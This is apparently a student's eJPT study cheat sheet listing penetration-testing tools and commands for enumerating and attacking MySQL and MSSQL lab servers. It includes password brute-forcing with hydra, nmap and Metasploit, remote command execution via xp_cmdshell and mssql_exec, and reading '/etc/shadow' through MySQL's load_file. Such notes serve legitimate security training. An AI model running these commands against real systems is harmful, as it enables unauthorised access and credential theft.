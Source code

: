# TOOLS FOR EJPT

### Directory busting

- gobuster
- dirb
- msfconsole
- dirbuster

### Password enumeration

- hydra
    - for MySQL user ‘root’ we can also provide a username list
        
        ```jsx
        hydra 192.140.141.3 -l root /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt  mysql
        ```
        
- metasploid(msfconsole)
    - for brute forcing a MySQL user password eg ‘root’
        
        ```jsx
        use auxiliary/scanner/mysql/mysql_login
        ```
        

### Download the source code

- curl
- wget

### Open the website in the command line

- browsh → open the browser in the command line

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/f47dde30-36bf-4128-a5a2-df9580b08968/48ebad61-d33a-4908-83d9-1422799200d2/Untitled.png)

- lynx

 

## Ms-SQL(Microsoft based SQL) enumeration

- Nmap
    - for more info and NTLM info also
        
        ```jsx
        nmap 10.5.31.168 -sV -sC -p 1433
        ```
        
    - for information about the MSSQL database server
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-info
        ```
        
    - for brute forcing the users and their passwords on the MSSQL server
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt
        ```
        
    - what user have an empty password(or anonymous login)
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-empty-password
        ```
        
    - Execute MSSQL query to extract sysusers(syslogins)
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt
        ```
        
    - Execute a command on MSSQL
        
        ```jsx
        nmap 10.5.31.168 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"
        ```
        
- msfconsole
    - brute forcing users and their passwords
        
        ```jsx
        use auxiliary/scanner/mssql/mssql_login
        ```
        
    - Running the MSSQL enumeration module to find all possible information
        
        ```jsx
        use auxiliary/admin/mssql/mssql_enum
        ```
        
    - Enumerate all MSSQL logins or extract MSSQL users
        
        ```jsx
        use auxiliary/admin/mssql/mssql_enum_sql_logins
        ```
        
    - Execute a command on the target machine
        
        ```jsx
        use auxiliary/admin/mssql/mssql_exec
        ```
        
    - Enumerate all available system users(or domain accounts)
        
        ```jsx
        use auxiliary/admin/mssql/mssql_enum_domain_accounts
        ```
        

## MySQL enumeration

- MySQL
    - connect with the database as ‘root’
        
        ```jsx
        mysql -h <IP address> -u root
        ```
        
- Nmap
    - MySQL user enumeration
        
        ```jsx
        nmap 192.99.192.3 -sV --script mysql-enum
        ```
        
    - what user have an empty password(or anonymous login)
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-empty-password
        ```
        
    - finding user through ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-users --script-args="mysqluser='root',mysqlpass=""”
        ```
        
    - finding databases on the SQL server through ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-databases --script-args="mysqluser='root',mysqlpass=""”
        ```
        
    - finding the data dir(or other variables) through ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-variables --script-args="mysqluser='root',mysqlpass=""”
        ```
        
    - Check whether File Privileges can be granted to non-admin users using mysql_audit nmap script.
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-audit --script-args="mysql-audit.username='root', mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'”
        ```
        
    - running our query on ‘root’
        
        ```jsx
        nmap 192.99.192.3 -p 3306 -sV --script mysql-query --script-args="query='Select * from books.authors;',username='root',password=''”
        ```
        
- *msfconsole*
    - for brute forcing a MySQL user password eg ‘root’
        
        ```jsx
        use auxiliary/scanner/mysql/mysql_login
        ```
        

## Basic my SQL commands

- Connect to the SQL server
    
    ```jsx
    mysql -h <IP address> -u <user>;
    ```
    
- to see the databases
    
    ```jsx
    Show databases;
    ```
    
- to select a database
    
    ```jsx
    Use <database name>;
    ```
    
- to see tables
    
    ```jsx
    Show tables;
    ```
    
- to see the count of rows from a table
    
    ```jsx
    Select count(*) from <tablename>;
    ```
    
- to see the values inside the table
    
    ```jsx
    Select * from <tablename>;
    ```
    
- to open a file in the SQL database
    
    ```jsx
    Select load_file("/etc/shadow");
    ```
